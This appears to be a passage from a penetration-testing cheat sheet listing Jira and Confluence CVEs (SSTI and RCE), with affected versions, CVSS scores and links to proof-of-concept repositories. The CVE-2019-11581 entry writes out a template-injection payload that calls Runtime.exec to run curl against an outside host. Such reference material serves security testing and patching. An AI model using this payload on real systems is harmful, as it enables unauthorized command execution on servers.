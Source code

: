 ***

#### SSTI <a href="#ssti" id="ssti"></a>

**CVE-2019-11581**

**Version**: `4.4.0 <= x < 7.6.14`, `7.7.0 <= x < 7.13.5`, `8.0.0 <= x < 8.0.3`, `8.1.0 <= x < 8.1.2`, `8.2.0 <= x < 8.2.3` (Jira version) **CVSS 3.x**: `9.8 CRITICAL AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` **Privileges Required**: `None` **POC**:

Copy

```
a. Navigate to https://<JIRA>/secure/ContactAdministrators!default.jspa
b. Try SSTI payload in subject and/or body:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xyz.burp(.)net').waitFor()
```

**CVE-2021-39115**

**Version**: `< 4.13.9`, `4.14.0 <= x < 4.18.0` (Jira Service Management Server and Data Center versions) **CVSS 3.x**: `7.2 HIGH AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H` **Privileges Required**: `High` **POC**: `https://github.com/PetrusViet/CVE-2021-39115`

**CVE-2021-43947**

**Version**: `< 8.13.15`, `8.14.0 <= x < 8.20.3` (Jira version) **CVSS 3.x**: `7.2 HIGH AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H` **Privileges Required**: `High` **Explanation**: It is same CVE as CVE-2021-39115, but with patch bypass **Article**: `https://mp.weixin.qq.com/s?__biz=Mzk0NTU5Mjg0Ng==&mid=2247491370&idx=1&sn=38fcc8290467b597c06d46455a1f0120&source=41#wechat_redirect`

***

#### RCE <a href="#rce" id="rce"></a>

**CVE-2021-26084**

**Version**: `< 6.13.23`, `6.14.0 <= x < 7.4.11`, `7.5.0 <= x < 7.11.6`, `7.12.0 <= x < 7.12.5` (Confluence Server and Data Center versions) **CVSS 3.x**: `9.8 CRITICAL AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` **Privileges Required**: `None` **POC**:

Copy

```
https://github.com/alt3kx/CVE-2021-26084_PoC
https://github.com/0xf4n9x/CVE-2021-26084
```

**CVE-2022-0540**

**Version**: `< 8.13.18`, `8.14.0 <= x < 8.20.6`, `8.21.0 <= x < 8.22.0` (Jira version) **Version**: `< 4.13.18`, `4.14.0 <= x < 4.20.6`, `4.21.0 <= x < 4.22.0` (Jira Service Management Server and Data Center) **CVSS 3.x**: `9.8 CRITICAL AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` **Privileges Required**: `None` **POC**:

Copy

```
https://github.com/Pear1y/CVE-2022-0540-RCE
https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/
```
